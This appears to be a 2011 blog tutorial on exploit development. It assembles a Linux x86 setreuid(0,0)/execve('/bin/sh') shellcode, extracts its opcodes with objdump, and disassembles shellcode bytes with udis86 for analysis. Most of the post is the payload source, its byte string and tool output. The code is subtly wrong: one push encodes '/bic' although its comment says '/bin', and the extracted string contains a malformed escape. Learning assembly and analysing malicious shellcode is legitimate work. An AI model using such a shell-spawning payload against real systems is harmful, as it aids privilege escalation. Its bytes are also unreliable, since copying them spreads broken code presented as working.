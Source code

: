 Title: Disassembly
Date: 2011-12-20 17:58
Author: Admin
Category: Technology
Tags: assembly languages, exploit development, fancy punks, hex, linux, shellcode

Often when doing exploit development, it's [necessary to extract hex
opcodes][] from an assembly or C program to generate shellcode.
Normally, to do this, one uses **objdump** as in the following example:

`isis@wintermute:~$ cat shellcode.asm`

section .text

global \_start

\_start:

;; setreuid (0,0)

xor eax, eax ;clear the eax registry

mov al, 0x46 ;set the syscall \# to decimal 70 or hex 46, one byte

xor ebx, ebx

xor ecx, ecx

int 0x80 ;system interrupt to call kernel to execute syscall

;; spawn shellcode with execve

xor eax, eax

push eax ;push a NULL value on the stack

push 0x68732f2f ;push '//sh' onto the stack

push 0x6369622f ;push '/bin' onto the stack

mov ebx, esp ;esp now points to '/bin/sh', so write to ebx

push eax ;push another NULL to terminate char \*\* argv on stack

push ebx ;push pointer to '/bin/sh' onto stack

mov ecx, esp ;esp now holds the address of argv, so write to ecx

xor edx, edx

mov al, 0xb ;set the syscall \# to decimal 11 or hex b, one byte

int 0x80 ;sytem interrupt to call kernel to execute syscall

isis@wintermute:\~\$ nasm -f elf shellcode.asm

isis@wintermute:\~\$ ld -melf\_i386 -o shellcode shellcode.o

isis@wintermute:\~\$ objdump -d ./shellcode

./shellcode: file format elf32-i386

Disassembly of section .text:

08048060 \<\_start\>:

8048060: 31 c0 xor %eax,%eax

8048062: b0 46 mov \$0x46,%al

8048064: 31 db xor %ebx,%ebx

8048066: 31 c9 xor %ecx,%ecx

8048068: cd 80 int \$0x80

804806a: 31 c0 xor %eax,%eax

804806c: 50 push %eax

804806d: 68 2f 2f 73 68 push \$0x68732f2f

8048072: 68 2f 62 69 63 push \$0x6369622f

8048077: 89 e3 mov %esp,%ebx

8048079: 50 push %eax

804807a: 53 push %ebx

804807b: 89 e1 mov %esp,%ecx

804807d: 31 d2 xor %edx,%edx

804807f: b0 0b mov \$0xb,%al

8048081: cd 80 int \$0x80

So, from this example, the shellcode would be:

`\x31\xc0\xb0\x46\x31\xdb\x31\xc9\xcd\x80\x31\xc0\x50\x68\x2f\2f\x73\`

x68\\x68\\x2f\\x62\\x69\\x63\\x89\\xe3\\x50\\x53\\x89\\xe1\\x31\\xd2\\xb0\\x0b\\xcd\\x80

But! What if you have some shellcode, say from a nasty PDF that someone
sent you (though a malPDF's shellcode would be in JavaScript, and so it
would look like "%u68%u73%u2f%u2f"), and you don't want to have to sit
there with a hex-to-ascii chart looking everything up by hand just to
find out what this shellcode is doing? As it turns out, there's a handy
little thing called [udis86][] to do all that boring work for you. You
have to download their tarball, then do:

`$ ./configure && make && make install`

To run udis86 at the commandline, do:

`$ udcli`

Words can't describe how much I'm crushing on this program. Check this
out:

`isis@wintermute:~/$ udcli -x`

31 c0 b0 46 31 db 31 c9 cd 80 31 c0 50 68 2f 2f 73 68 68 2f 62 69 63 89
e3 50 53 89 e1 31 d2 b0 0b cd 80

0000000000000000 31c0 xor eax, eax

0000000000000002 b046 mov al, 0x46

0000000000000004 31db xor ebx, ebx

0000000000000006 31c9 xor ecx, ecx

0000000000000008 cd80 int 0x80

000000000000000a 31c0 xor eax, eax

000000000000000c 50 push eax

000000000000000d 682f2f7368 push dword 0x68732f2f

0000000000000012 682f626963 push dword 0x6369622f

0000000000000017 89e3 mov ebx, esp

0000000000000019 50 push eax

000000000000001a 53 push ebx

000000000000001b 89e1 mov ecx, esp

000000000000001d 31d2 xor edx, edx

000000000000001f b00b mov al, 0xb

0000000000000021 cd80 int 0x80

  [necessary to extract hex opcodes]: http://www.patternsinthevoid.net/blog/2011/09/learning-assembly-through-writing-shellcode/
    "Learning Assembly Through Writing Shellcode"
  [udis86]: http://udis86.sourceforge.net/
